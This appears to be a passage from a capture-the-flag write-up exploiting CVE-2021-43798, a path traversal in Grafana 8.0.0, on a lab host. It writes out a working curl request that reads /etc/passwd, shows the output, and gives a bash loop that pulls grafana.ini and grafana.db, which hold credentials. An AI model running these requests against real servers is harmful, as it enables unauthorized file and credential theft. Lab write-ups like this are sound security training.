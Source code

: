 We can some default credentials, but there's nothing that let's us in. However there's a piece of information that is graciously leaked here and that version is 8.0.0

Some minimal research (searching Grafana v8 cve) leads us to this wonderful implementation of `CVE-2021-43798`

[Grafana Exploit](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798)

It targets some typical things you'd want out of a grafana instance which is ideal. It automates all the things you'd want. The CVE exposes an unauthorized LFI by looking through publicly facing plugins. 

All the script is doing is going through some commonly known plugins to find one that's available and then enumerate some common desireable files.

You can easily replicate this with a simple curl command.

```bash
curl -s --path-as-is 'http://10.129.110.95:3000/public/plugins/alertlist/../../../../../../../../etc/passwd'
```
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin

```

And to replicate the script.
```bash
file_paths=("/etc/passwd" "/etc/grafana/grafana.ini" "/var/lib/grafana/grafana.db")
for f in ${file_paths[@]}; do
    new_file=$(awk -F '/' '{print $NF}' <<< "$f")
    curl -s --path-as-is "http://10.129.110.95:3000/public/plugins/alertlist/../../../../../../../..${f}" > ${new_file}
done
```
